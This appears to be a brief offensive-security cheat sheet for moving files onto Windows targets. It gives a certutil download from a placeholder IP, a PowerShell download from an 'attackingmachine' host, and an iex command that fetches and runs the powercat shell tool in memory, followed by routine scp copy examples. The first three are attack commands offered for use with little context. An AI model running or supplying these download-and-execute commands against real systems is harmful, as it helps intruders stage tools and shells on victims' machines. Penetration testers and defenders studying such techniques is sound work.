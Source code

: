 ## Using Certutil

 ```
 certutil.exe -f -urlcache -split http://xxx.xxx.xxx.xxx/filename.exe c:/windows/temp/filename.exe
```

## Powershell

### Outside Powershell
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http:/ /attackingmachine/wget.exe','C:\wget.exe')"
```

### Inside Powershell

Download powercat ...

```
iex (New-Object System.Net.Webclient).DownloadString('https://raw. githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
```

## SCP


### Copy file from a remote host to local host

```
$ scp username@from_host:file.txt /local/directory/
$ scp -i /home/kali/.ssh/id_rsa user@hostname:/home/user/thefile ./
```
 
### Copy file from local host to a remote host

```
$ scp file.txt username@to_host:/remote/directory/
```
 

### Copy directory from a remote host to local host

```
$ scp -r username@from_host:/remote/directory/  /local/directory/
```
 

### Copy directory from local host to a remote host

```
$ scp -r /local/directory/ username@to_host:/remote/directory/
```
 

### Copy file from remote host to remote host

```
$ scp username@from_host:/remote/directory/file.txt username@to_host:/remote/directory/
```
